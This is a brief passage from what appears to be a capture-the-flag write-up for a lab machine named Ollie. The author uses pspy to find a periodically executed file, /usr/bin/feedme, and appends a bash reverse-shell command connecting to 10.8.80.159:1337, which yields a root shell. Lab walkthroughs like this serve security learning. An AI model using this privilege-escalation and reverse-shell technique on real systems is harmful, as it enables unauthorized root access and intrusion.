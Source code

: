 So, since pspy found it and seems that that file is executed after some minutes, I modify it with:
```
ollie@hackerdog:/var/www/html$ echo "bash -i >& /dev/tcp/10.8.80.159/1337 0>&1" >> /usr/bin/feedme
```

I start a listener on my machine and after some minutes, I get the root reverse shell:

![Root](/assets/img/posts/ollie/root.png)

